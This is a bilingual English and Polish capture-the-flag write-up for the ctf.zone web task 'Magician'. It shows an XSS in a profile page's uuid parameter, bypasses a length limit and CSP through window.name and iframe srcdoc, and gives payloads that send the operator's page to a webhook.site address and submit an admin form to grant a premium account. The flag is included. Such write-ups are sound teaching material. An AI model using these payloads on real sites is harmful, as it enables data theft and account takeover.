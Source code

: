 # Magician (web)
[PL](#rozpoznanie)
## Analysis
In this challenge we can see a simple website imitating a web store with stuff for magicians:
![](image6.png)
The registration form contains standard login and password fields and “name” field that fill be visible in our profile:
![](image4.png)
![](image8.png)

Besides editing our profile (we can change the “name” field to any string of up to 33 characters length) we can see “support” tab that suggests typical XSS task:
![](image3.png)

The hardcoded URL of our profile suggests injecting into “name” field in our profile that we control - however, it’s just a bait (typical for ctf.zone) and the limit is only client-side. Removing readonly attribute from “Link to profile” field lets us redirect the operator to any website that we control.
![](image7.png)

Now we gain very useful information: the operator is using Firefox 6.1

A quick glance at response headers:
```
Content-Security-Policy: style-src 'self' 'unsafe-inline'; script-src 'self' 'unsafe-inline' https://www.google.com/recaptcha/ https://www.gstatic.com/recaptcha/;
X-Frame-Options: ALLOW-FROM http://web-04.v7frkwrfyhsjtbpfcppnu.ctfz.one
X-XSS-Protection: 1; mode=block
```

## XSS
We can find a real XSS in uid parameter of profile.php script:
![](image1.png)

Unfortunately, the maximum length of our payload is 36 characters. It’s too short for any meaningful action, so we need to think of something that will let us execute longer payloads. After many tires and some googling we find the solution:
the name attribute of window object is not changed while redirecting to different origins. We can set it in our website and execute on vulnerable one with short payload that bypasses CSP and makes uses of the fact that it’s allowed to load iframes from our own origin:
```html
?uuid="><iframe onload=srcdoc=window.name>
```
iframe with content loaded with srcdoc parameter will be treated as same-origin
It’s worth to mention that we don’t care about X-XSS-Protection header that is simply ignored by Firefox.

```html
<script>
window.name='<script>alert("This is XSS!")</scrip'+'t>';
window.location = 'http://web-04.v7frkwrfyhsjtbpfcppnu.ctfz.one/profile.php?uuid=%22%3E%3Ciframe%20onload=srcdoc=window.name%3E';
</script>
```
![](image2.png)

## Getting the flag
The remaining part of the task is simple: we send the content of operator’s website to us:
```html
<script>
window.name = `
<script>
window.frameElement.onload=null;
window.location="http://webhook.site/57607bbd-c1c9-43df-87cf-1de7dfe72d01?c="+btoa(window.parent.document.body.innerHTML);
`
window.name += '</scrip'+'t>’
window.location = 'http://web-04.v7frkwrfyhsjtbpfcppnu.ctfz.one/profile.php?uuid=%22%3E%3Ciframe%20onload=srcdoc=window.name%3E'
</script>
```

And observe the new option in menu: manage.php:
![](image5.png)

Let’s write a pyaload that fills the form with our uid and gives us premium account:
```html
<script>
window.name = `
<script>
window.frameElement.onload=null;
console.log(window.parent.document.body.innerHTML);
function elo()
{
document.getElementById('cudo').onload=null;
r = document.getElementById('cudo').contentWindow.document;
r.getElementsByName('user_uuid')[0].value = 'dbb306dd-28c1-4333-88ba-9588842f08e0';
r.getElementsByName('status')[0].value = 'premium';
r.getElementById('user_manage').submit();
}

`
window.name += '</scrip'+'t><iframe src="/manage.php" onload="elo()" id="cudo">'
window.location = 'http://web-04.v7frkwrfyhsjtbpfcppnu.ctfz.one/profile.php?uuid=%22%3E%3Ciframe%20onload=srcdoc=window.name%3E'
</script>
```

After refreshing our profile we can find a flag inside (unfortunately, while writing this writeup, that bot visiting website seems to be dead, so there won’t be a screenshot :( )
```
ctfzone{0190af5705a38115cd6dee6e7d79e317}
```

## Rozpoznanie
W zadaniu dostajemy prostą stronę udającą sklep z artykułami dla iluzjonistów:
![](image6.png)

Formularz rejestracji zawiera standardowe pole loginu i hasła oraz pole “name”, które będzie wyświetlane w profilu:
![](image4.png)
![](image8.png)

Oprócz edycji profilu (możemy zmienić pole Name na dowolny napis o długości do 33 znaków) widzimy zakładkę support, która sugeruje typowe zadanie na XSS:
![](image3.png)

Ustawiony na sztywno adres do naszego profilu sugeruje konieczność wstrzyknięcia naszego kodu w pole Name, które edytujemy - jest to jednak zwykła zmyła (typowa dla ctf.zone ;) ), a ograniczenie jest sprawdzane jedynie po stronie klienta. Usunięcie atrybutu readonly z pola “Link to profile” pozwala nam na przekierowanie operatora na dowolną kontrolowaną przez nas stronę:
![](image7.png)

Zyskujemy w ten sposób ważną informację: operator korzysta z przeglądarki Firefox 6.1.

Szybki rzut oka na nagłówki odsyłane przez serwer:
```
Content-Security-Policy: style-src 'self' 'unsafe-inline'; script-src 'self' 'unsafe-inline' https://www.google.com/recaptcha/ https://www.gstatic.com/recaptcha/;
X-Frame-Options: ALLOW-FROM http://web-04.v7frkwrfyhsjtbpfcppnu.ctfz.one
X-XSS-Protection: 1; mode=block
```


## XSS
Prawdziwego XSS-a znajdujemy w polu uid skryptu profile.php:
![](image1.png)

Niestety, maksymalna długość naszego payloadu nie może przekraczać 36 znaków. To za mało na wykonanie jakiejkolwiek sensownej akcji, więc musimy pomyśleć o czymś, co pozwoli nam wykonywać dłuższe skrypty. Po wielu próbach i googlowaniu znajdujemy rozwiązanie: atrybut name obiektu window jest przekazywany między stronami. Możemy więc ustawić go na swojej stronie i wykonać na podatnej stronie krótkim payloadem, który omija CSP i wykorzystuje to, że dozwolone jest ładowanie ramek z własnego origina:
```html
?uuid="><iframe onload=srcdoc=window.name>
```
Ramka z zawartością załadowaną przez srcdoc będzie miała ten sam origin, co strona rodzica
Warto wspomnieć, że nie przeszkadza nam tutaj nagłówek X-XSS-Protection, który Firefox zwyczajnie ignoruje.

```html
<script>
window.name='<script>alert("This is XSS!")</scrip'+'t>';
window.location = 'http://web-04.v7frkwrfyhsjtbpfcppnu.ctfz.one/profile.php?uuid=%22%3E%3Ciframe%20onload=srcdoc=window.name%3E';
</script>
```

![](image2.png)
## No to flaga!
Dalej już z górki: przesyłamy sobie zawartość strony, którą widzi operator:
```html
<script>
window.name = `
<script>
window.frameElement.onload=null;
window.location="http://webhook.site/57607bbd-c1c9-43df-87cf-1de7dfe72d01?c="+btoa(window.parent.document.body.innerHTML);
`
window.name += '</scrip'+'t>’
window.location = 'http://web-04.v7frkwrfyhsjtbpfcppnu.ctfz.one/profile.php?uuid=%22%3E%3Ciframe%20onload=srcdoc=window.name%3E'
</script>
```

I w zwróconym kodzie zauważamy nową opcję w menu: manage.php:
![](image5.png)

Napiszmy więc payload, który wypełnia formularz naszym uuid i przyznaje nam konto premium:
```html
<script>
window.name = `
<script>
window.frameElement.onload=null;
console.log(window.parent.document.body.innerHTML);
function elo()
{
document.getElementById('cudo').onload=null;
r = document.getElementById('cudo').contentWindow.document;
r.getElementsByName('user_uuid')[0].value = 'dbb306dd-28c1-4333-88ba-9588842f08e0';
r.getElementsByName('status')[0].value = 'premium';
r.getElementById('user_manage').submit();
}

`
window.name += '</scrip'+'t><iframe src="/manage.php" onload="elo()" id="cudo">'
window.location = 'http://web-04.v7frkwrfyhsjtbpfcppnu.ctfz.one/profile.php?uuid=%22%3E%3Ciframe%20onload=srcdoc=window.name%3E'
</script>
```

Po czym odświeżamy nasz profil i znajdujemy w nim flagę (niestety, na moment pisanie writeupa bot odwiedzający stronę nie działa, więc nie będzie screenshota :( ):
```
ctfzone{0190af5705a38115cd6dee6e7d79e317}
```





